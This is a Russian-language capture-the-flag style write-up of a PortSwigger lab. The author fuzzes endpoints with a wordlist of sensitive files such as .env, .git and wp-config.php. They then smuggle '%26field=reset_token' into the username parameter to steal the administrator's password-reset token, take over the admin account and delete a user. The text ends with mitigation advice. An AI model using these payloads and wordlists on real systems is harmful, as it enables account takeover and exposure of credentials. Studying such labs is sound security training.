




лаба https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-query-string

нужно войти по `administrator` и удалить `carlos`

-----

```http
POST /api HTTP/1.1
Host: 0a6c009a030ba56d8494698100020045.web-security-academy.net
Cookie: session=WCy7jR0w5JlSivsSeb6jSCO2ypCOzzkS
Content-Length: 0
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a6c009a030ba56d8494698100020045.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6c009a030ba56d8494698100020045.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

сразу через турбо интрудер запускаю пейлоад

```c
/api  
/api/  
/v1  
/v2  
/graphql  
/swagger  
/api-docs  
/openapi.json

/swagger/index.html  
/swagger/ui  
/swagger-ui.html  
/swagger.json  
/swagger.yaml  
/api-docs/swagger.json  
/api-docs/swagger.yaml  
/docs  
/documentation  
/api/documentation  
/api/swagger  
/api/swagger-ui  
/api/swagger.json  
/api/swagger.yaml  
/openapi.yaml  
/api/openapi.json  
/api/openapi.yaml  
/v1/swagger.json  
/v2/swagger.json  
/v3/swagger.json

/admin
/graphql  
/graphiql  
/graphql/console  
/v1/graphql  
/v2/graphql  
/api/graphql  
/query  
/graphql/query

/api/v1  
/api/v2  
/api/v3  
/api/v4  
/api/v5  
/rest  
/rest/v1  
/rest/v2  
/api/rest  
/service  
/services  
/service/v1  
/services/v2

/admin/api  
/internal/api  
/private/api  
/partner/api  
/partner/v1  
/third-party/api  
/thirdparty/v1  
/backend/api  
/api/admin  
/api/internal  
/api/private

/api/1  
/api/2  
/api/3  
/api/latest  
/api/stable  
/api/beta  
/api/alpha  
/api/dev  
/api/test  
/api/staging

/api/json  
/api/xml  
/api/yaml  
/api/rest/json  
/api/rest/xml  
/api/data  
/api/endpoint  
/api/service  
/api/services  
/api/function  
/api/functions  
/api/method  
/api/methods  
/api/action  
/api/actions

/api/doc  
/api/docs  
/api/documentation  
/api/guide  
/api/reference  
/api/manual  
/api/help  
/api/index.html  
/api/readme  
/api/README

моб

/api/mobile  
/api/app  
/mobile/api  
/app/api  
/api/v1/mobile  
/api/android  
/api/ios  
/client-api  
/mobile-client

вот тут тоже может че-то будет

/robots.txt  
/sitemap.xml  
/.git/  
/backup/  
/phpinfo.php  
/cgi-bin/phpinfo.php  
/debug/  
index.php~  
index.php.bak  
index.php.swp  
index.php.save  
index.php.old  
index.php.orig  
config.php~  
config.php.bak  
.env~  
.env.bak  
.gitignore  
/debug  
/test  
/tests  
/dev  
/develop  
/development  
/stage  
/staging  
/admin/debug  
/api/debug  
/console/  
/web-console/  
/admin/  
/backup/  
/backups/  
/temp/  
/tmp/  
/logs/  
/log/  
/private/  
/hidden/  
/secret/  
/internal/  
/restricted/  
/secure/  
/protected/  
/uploads/  
/files/  
/downloads/  
/docs/  
/documentation/  
/api/docs/  
/swagger/  
/swagger-ui/  
/graphql/console/  
/.env  
/.htaccess  
/.htpasswd  
/WEB-INF/  
/WEB-INF/web.xml  
/META-INF/  
/META-INF/context.xml  
/server-status  
/server-info  
/config.php  
/config.xml  
/config.json  
/configuration.php  
/settings.php  
/wp-config.php  
/app.config  
/application.properties  
/application.yml  
/database.yml  
/error_log  
/error.log  
/access_log  
/access.log  
/debug.log  
/application.log  
/server.log  
/catalina.out
```

но реузультаты так себе - ничего интересного нет
на POST /admin HTTP/1.1  ответ HTTP/1.1 401 Unauthorized

----


есть еще такой запрос

на восстановление забытого пароля

```http
POST /forgot-password HTTP/2
Host: 0a6c009a030ba56d8494698100020045.web-security-academy.net
Cookie: session=WCy7jR0w5JlSivsSeb6jSCO2ypCOzzkS
Content-Length: 60
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a6c009a030ba56d8494698100020045.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a6c009a030ba56d8494698100020045.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

csrf=lrD4BCVGMmp3JsGgAGwKXrEnhx1QGRTx&username=administrator


------

ответ

HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"type":"email","result":"*****@normal-user.net"}

```


глянул на карту сайта - а там:
был запрос GET /static/js/forgotPassword.js HTTP/2

и ответ  c js файлом системным!
и здесь - клиентская логика сброса пароля
```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2552

let forgotPwdReady = (callback) => {
    if (document.readyState !== "loading") callback();
    else document.addEventListener("DOMContentLoaded", callback);
}

function urlencodeFormData(fd){
    let s = '';
    function encode(s){ return encodeURIComponent(s).replace(/%20/g,'+'); }
    for(let pair of fd.entries()){
        if(typeof pair[1]=='string'){
            s += (s?'&':'') + encode(pair[0])+'='+encode(pair[1]);
        }
    }
    return s;
}

const validateInputsAndCreateMsg = () => {
    try {
        const forgotPasswordError = document.getElementById("forgot-password-error");
        forgotPasswordError.textContent = "";
        const forgotPasswordForm = document.getElementById("forgot-password-form");
        const usernameInput = document.getElementsByName("username").item(0);
        if (usernameInput && !usernameInput.checkValidity()) {
            usernameInput.reportValidity();
            return;
        }
        const formData = new FormData(forgotPasswordForm);
        const config = {
            method: "POST",
            headers: {
                "Content-Type": "x-www-form-urlencoded",
            },
            body: urlencodeFormData(formData)
        };
        fetch(window.location.pathname, config)
            .then(response => response.json())
            .then(jsonResponse => {
                if (!jsonResponse.hasOwnProperty("result"))
                {
                    forgotPasswordError.textContent = "Invalid username";
                }
                else
                {
                    forgotPasswordError.textContent = `Please check your email: "${jsonResponse.result}"`;
                    forgotPasswordForm.className = "";
                    forgotPasswordForm.style.display = "none";
                }
            })
            .catch(err => {
                forgotPasswordError.textContent = "Invalid username";
            });
    } catch (error) {
        console.error("Unexpected Error:", error);
    }
}

const displayMsg = (e) => {
    e.preventDefault();
    validateInputsAndCreateMsg(e);
};

forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});

```




здесь есть интересная функция 
```js
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

вижу функционал resetToken - для смены токена наверно!

то когда я делаю запрос на смену пароля то срабатывает код validateInputsAndCreateMsg и далее функция forgotPwdReady

и далее если ей приходит поле resetToken - то она выполняет сброс токена!

и в теории можно стрырить токен! и под токеном зайти на админа!

попробую передать парметр для сброса токена в параметрах этого post  запроса 

```http
POST /forgot-password HTTP/2
Host: 0a6c009a030ba56d8494698100020045.web-security-academy.net
Cookie: session=WCy7jR0w5JlSivsSeb6jSCO2ypCOzzkS
Content-Length: 60
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a6c009a030ba56d8494698100020045.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a6c009a030ba56d8494698100020045.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

csrf=lrD4BCVGMmp3JsGgAGwKXrEnhx1QGRTx&username=administrator
```

пробую так - типо так - как-то 
```c
csrf=lrD4BCVGMmp3JsGgAGwKXrEnhx1QGRTx&username=administrator&reset-token
```
результат не поменялся! ответ как обычный 200

---
пробую %26reset-token
```c
csrf=lrD4BCVGMmp3JsGgAGwKXrEnhx1QGRTx&username=administrator%26reset-token
```
а теперь ответ 400 "error": "Parameter is not supported."
типо нет такого параметра как reset-token

-------
пробую   %26resetToken=reset-token
```c
csrf=lrD4BCVGMmp3JsGgAGwKXrEnhx1QGRTx&username=administrator%26resetToken=reset-token
```

----

пробую %26field=reset_token
```c

csrf=lrD4BCVGMmp3JsGgAGwKXrEnhx1QGRTx&username=administrator%26field=reset_token
```

и вуаля  - ответ!
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 66

{"type":"reset_token","result":"1qthzlatxp359knkfciwu7vysjsv9tp2"}
```

это чистой воды server-side-parameter-pollution - замуссорение параметров на серваке

-----

подставил в сессию 
```http
GET /admin HTTP/2
Host: 0a6c009a030ba56d8494698100020045.web-security-academy.net
Cookie: session=1qthzlatxp359knkfciwu7vysjsv9tp2
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6c009a030ba56d8494698100020045.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
но ответ HTTP/2 401 Unauthorized


---
теперь нужно понять - откуда этот токен

и 
кажется - я начал догадываться 
```js
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
```




в файле js что я нашел
есть строки
window.location.href = `/forgot-password?reset_token=${resetToken}`;

то есть это вроде бы как сброс пароля

подставляю
```http
GET /forgot-password?reset_token=1qthzlatxp359knkfciwu7vysjsv9tp2 HTTP/2
Host: 0a6c009a030ba56d8494698100020045.web-security-academy.net
Cookie: session=1qthzlatxp359knkfciwu7vysjsv9tp2
Content-Length: 0
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a6c009a030ba56d8494698100020045.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6c009a030ba56d8494698100020045.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

епта!! открылась форма для сброса пароля - только не ясно - чьего пароля
ахахха


вооот она
```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=HUH1e6SdZHWZMpeti0jxtnbQ53YTaoIY; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3424

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Exploiting server-side parameter pollution in a query string</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Exploiting server-side parameter pollution in a query string</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-query-string'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <form class=login-form method=POST>
                        <input required type="hidden" name="csrf" value="RtxjhXDWH8v0dwf0DDCn62eLr3hZUFUk">
                        <input required type=hidden name=reset_token value=1qthzlatxp359knkfciwu7vysjsv9tp2>
                        <label>New password</label>
                        <input required type=password name=new-password-1>
                        <label>Confirm new password</label>
                        <input required type=password name=new-password-2>
                        <button class='button' type='submit'> Submit </button>
                    </form>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```




---

отправляю запрос на смену пароля ))

```http
POST /forgot-password?reset_token=1qthzlatxp359knkfciwu7vysjsv9tp2 HTTP/2
Host: 0a6c009a030ba56d8494698100020045.web-security-academy.net
Cookie: session=WCy7jR0w5JlSivsSeb6jSCO2ypCOzzkS
Content-Length: 124
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a6c009a030ba56d8494698100020045.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6c009a030ba56d8494698100020045.web-security-academy.net/forgot-password?reset_token=1qthzlatxp359knkfciwu7vysjsv9tp2
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=lrD4BCVGMmp3JsGgAGwKXrEnhx1QGRTx&reset_token=1qthzlatxp359knkfciwu7vysjsv9tp2&new-password-1=12345&new-password-2=12345
```
ответ 302 найдено - то есть поменял ... наверно админский ..раз юзер без указания

--

пробую войти
и да - успех

попал в адинку - делитнул карлоса обоссаного
и лаба решена!




#### выводы

сперва нашел файл js  - который просто так болтался среди карты сайта, как ботл в такане, ну я его и посмотрел

в коде файла были функции обработки запросов и нашел там скрытый функционал
сперва - для смены токена
потом - для смены пароля с помощью токена

=>

тем самым обошел пункт где нужно было вводить пароли

я применил server-side parameter pollution через функцию восстановления пароля

суть в том что сервер на бекенде сам ходит во внутреннее api типа /internal/user?username=administrator&field=email

я добавил в параметр username закодированный & и параметр field со значением reset_token

сервер воспринял это как отдельный параметр и вернул мне токен для сброса пароля администратора вместо его email

это сработало потому что бекенд не фильтровал спецсимволы в параметрах и доверял пользовательскому вводу при формировании запроса к внутреннему api


получив токен я открыл страницу /forgot-password?reset_token=мойтокен установил новый пароль для админа и зашел в админку
(все эти пути были прямо в js файле!)

### защита

ни в коем случае не оставлять системные файлы в открытом доступе, епта

чтобы защититься нужно экранировать или запрещать спецсимволы типа & и # в параметрах которые участвуют в формировании внутренних запросов

лучше использовать белые списки разрешенных значений а не черные

для внутренних вызовов применять строгую схему где набор параметров фиксирован и не зависит от внешнего ввода

также стоит кодировать данные перед вставкой в url и не использовать пользовательский ввод напрямую для формирования строк запроса